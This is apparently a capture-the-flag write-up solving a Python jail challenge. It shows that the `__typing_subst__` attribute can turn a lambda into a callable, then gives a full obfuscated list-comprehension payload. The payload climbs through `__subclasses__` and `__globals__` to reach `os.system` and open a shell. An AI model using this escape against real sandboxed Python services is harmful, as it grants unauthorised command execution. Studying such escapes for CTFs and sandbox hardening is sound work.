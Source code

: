 # solve

The entire idea revolves around `__typing_subst__` dunder which was added in 3.11 with the big typing overhaul.
See how it's used [here](https://github.com/python/cpython/blob/v3.13.7/Objects/genericaliasobject.c#L500) to understand why this works. It uses a normal getattr on the object rather than a magic function lookup, so you can add this attribute to any mutable object (like a lambda function) and you get a free 1-arg call.

This is just a standard subclasses escape but with \_\_typing_subst\_\_ tech and listcomp var setting:
```py
[[].__class__[x][x.__hash__.__name__[one:][one:][one:][one:][:neg_one][:neg_one]]
for[x]in[[lambda:[]]]
for[x.__typing_subst__]in[[[].__class__.__class__.__subclasses__]]
for[obj]in[[].__class__[x][[].__class__.__base__].__args__]
for[x.__typing_subst__]in[[[].__class__.__len__]]
for[one]in[[].__class__[x][[obj]].__args__]
for[x.__typing_subst__]in[[one.__class__.__neg__]]
for[neg_one]in[[].__class__[x][one].__args__]
for[gvars]in[[obj[neg_one].__call__.__globals__]]
for[x.__typing_subst__]in[[gvars.keys.__name__[one:][one:][::neg_one].__add__]]
for[sys_str]in[[].__class__[x][gvars.keys.__name__[neg_one]].__args__]
for[x.__typing_subst__]in[[gvars[sys_str].modules[one.__pos__.__name__[one:][one:][one:][:neg_one][:neg_one]].system]]
]
```

Just remove the newlines from above and submit it and you get a shell

